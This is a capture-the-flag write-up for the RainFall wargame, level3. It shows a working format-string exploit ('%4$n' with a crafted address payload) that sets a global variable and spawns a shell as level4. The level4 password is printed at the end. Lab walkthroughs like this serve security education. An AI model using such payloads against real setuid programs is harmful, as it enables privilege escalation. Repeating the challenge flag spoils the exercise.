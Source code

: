 level3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3

we can exploit a format string 
https://www.exploit-db.com/exploits/23985

level3@RainFall:~$ ./level3 
%n
Segmentation fault (core dumped)
level3@RainFall:~$ ./level3 
%x %x %x %x
200 b7fd1ac0 b7ff37d0 25207825


```
extern unsigned int m;
...
    if (m == 64)
    {
        fwrite("Wait what?!\n", 1, 12, stdout);
        system("/bin/sh");
    }
```
                     
```level3@RainFall:~$ ./level3 
AAAAAAAAAAAAAAAAAAA %x %x %x %x %x %x %x %x %x %x 
AAAAAAAAAAAAAAAAAAA 200 b7fd1ac0 b7ff37d0 41414141 41414141 41414141 41414141 20414141 25207825 78252078 
```
we can see that 
200 first value on the pile
then we have the adresse b7fd1ac0 and b7ff37d0 
and the character "A" (0x41) 
the value of fgets are set after the 3rd adress
```
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax; 40 == 0x804988c 
   ```
m is set at 0x804988c

we can set value in m with the format %4$n; 
-[::-1] will write in little endian
 + "A"*60 will add the remaining char to reach 64 

```
level3@RainFall:~$ python -c 'print "\x08\x04\x98\x8c"[::-1] + "A"*60 + "%4$n"' > input.txt
level3@RainFall:~$ cat input.txt - | ./level3 
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4

pwd
/home/user/level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa```